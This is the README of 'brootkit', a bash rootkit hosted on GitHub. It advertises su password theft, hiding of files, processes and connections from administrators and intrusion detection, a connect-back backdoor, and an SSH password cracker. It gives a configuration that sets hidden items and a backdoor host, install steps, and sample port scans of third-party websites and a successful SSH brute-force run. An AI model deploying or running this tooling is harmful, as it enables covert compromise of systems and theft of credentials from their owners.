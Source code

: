 ######BROOTKIT
    Lightweight rootkit implemented using bash shell scripts v0.10
    
    by wzt 2015   wzt.wzt@gmail.com
    
    If bash shell scripts can be designed for security tools like chkrootkit
    or rkhunter, so too can it be implemented for a rootkit.

######FEATURES
    1. more hidable ability against admintrator or hids.
    2. su passwd thief.
    3. hide file and directories.
    4. hide process.
    5. hide network connections.
    6. connect backdoor.
    7. multi thread port scanner.
    8. http download.
    9. multi thread ssh passwd crack.

######TARGET OS
    1. centos
    2. rhel
    3. ubuntu
    4. debian
    5. fedora
    6. freebsd

######TODO
    1. sudo thief support.

######INSTALL

    Linux distribution systems.

    1. edit br.conf first

      brootkit config file.

      #these ports will be hidden: port1,port2,...,portn.
      HIDE_PORT               8080,8899
      #these files will be hidden: file1,file2,...,filen.
      HIDE_FILE               br.conf,bashbd.sh,brootkit,.bdrc,brdaemon
      #these processes will be hidden: process1,process2,...,processn.
      HIDE_PROC               bashbd,brootkit,pty.spawn,brdaemon
      #the connect back host domain name or ip address.
      REMOTE_HOST             localhost
      #the connect back host port.
      REMOTE_PORT             8080
      #the connect backdoor base sleep time.
      SLEEP_TIME              60

    2. ./install.sh

    3. multi thread port scanner.

      [root@localhost brootkit]$ ./brscan.sh
      ./brscan.sh <-p> [-n|-t|-o|-h] <remote_host>

      option:
      -p              ports, pattern: port1,port2,port3-port7,portn...
      -n              thread num, default is 10
      -t              timeout, default is 30s
      -o              results write into log file, default is brscan.log
      -h              help information.

      exp:
      ./brscan.sh -p 21,22,23-25,80,135-139,8080 -t 20 www.cloud-sec.org
      ./brscan.sh -p 1-65525 -n 200 -t 20 www.cloud-sec.org

      [root@localhost brootkit]# ./brscan.sh -p 21,22,23-25,80,135-139,8080 -t 5 -n 20 www.wooyun.org
      host: www.wooyun.org | total ports: 10 | thread num: 10 timeout: 5 | logfile: brscan.log

      thread<0    >           --              pid <57053>     -->     21
      thread<1    >           --              pid <57054>     -->     22
      thread<2    >           --              pid <57055>     -->     23
      thread<3    >           --              pid <57056>     -->     24
      thread<4    >           --              pid <57057>     -->     80
      thread<5    >           --              pid <57058>     -->     135
      thread<6    >           --              pid <57059>     -->     136
      thread<7    >           --              pid <57060>     -->     137
      thread<8    >           --              pid <57061>     -->     138
      thread<9    >           --              pid <57070>     -->     8080

      [>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>]     10/10     6 s

      www.wooyun.org: 80

    4. multi thread ssh passwd crack.
      [root@localhost brootkit]# ./sshcrack.sh
      ./sshcrack.sh <-h host> <-u user> <-p passwd> [-t timeout] [-n threadnum] [-o logfile]

      option:
      -h              host name or host list file.
      -u              user name or user list file.
      -p              single passwd or passwd list file.
      -t              connect timeout, defalut is 5s.
      -n              thread num, default is 1.
      -o              log file.
      -v              display help information.

      exp:

      ./sshcrack.sh -h 192.168.215.148 -u wzt -p passwd.lst
      ./sshcrack.sh -h 192.168.215.148 -u wzt -p passwd.lst -n 10 -t 2
      ./sshcrack.sh -h 192.168.215.148 -u user.lst -p passwd.lst -n 10 -t 2
      ./sshcrack.sh -h host.lst -u user.lst -p passwd.lst -n 10 -t 2

      [root@localhost brootkit]# ./sshcrack.sh -h 192.168.215.148 -u wzt -p passwd.lst -n 6
      host: 1 | users: 1 | passwd: 28 thread: 6 | timeout: 10 | logfile: sshcrack.log

      Thread[ 1]      wzt@192.168.215.148             ==>     [e               ]      [failed]         3
      Thread[ 2]      wzt@192.168.215.148             ==>     [a               ]      [failed]         3
      Thread[ 3]      wzt@192.168.215.148             ==>     [d               ]      [failed]         3
      Thread[ 4]      wzt@192.168.215.148             ==>     [123456789       ]      [success]        6
      Thread[ 5]      wzt@192.168.215.148             ==>     [123456          ]      [failed]         3
      Thread[ 6]      wzt@192.168.215.148             ==>     [fd              ]      [failed]         3

      waiting all threads to finsh...

    Freebsd system
    on the modern freebsd system root use csh by default, the other users
    use sh default. this version of brootkit can only support sh based features.

    1. edit brsh.conf first

    brshootkit config file, only one argument support.

      #this port will be hidden.
      HIDE_PORT               8080
      #these files will be hidden.
      HIDE_FILE               brsh
      #these process will be hidden.
      HIDE_PROC               sh
      #the connect back host domain name or ip address.
      REMOTE_HOST             localhost
      #the connect back host port.
      REMOTE_PORT             8080
      #the connect backdoor base sleep time.
      SLEEP_TIME              60

    2. ./install.sh

######SOURCE
    https://github.com/cloudsec/brootkit
